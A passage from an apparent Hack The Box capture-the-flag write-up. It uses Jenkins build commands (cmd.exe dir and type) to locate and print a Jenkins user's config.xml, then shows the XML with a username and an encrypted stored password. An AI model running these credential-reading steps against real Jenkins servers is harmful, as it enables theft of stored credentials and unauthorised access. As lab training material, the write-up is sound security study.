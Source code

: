 ```bash
cmd.exe /c "dir c:\Users\oliver\Appdata\local\jenkins\.jenkins\users"
```

Then, we just have to re-execute our previous `curl` command and check the result.

![image-center](/images/htb/htb_object_jenkins_result_2.png){: .align-center}

Here, we have a folder named **admin_17207690984073220035** which should contain a file named **config.xml** with credentials in it. Again, we will edit our build command, but this time with the following one:

```bash
cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035\config.xml"
```

We should have a nice XML file with the encrypted password for **admin**.

```xml
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
```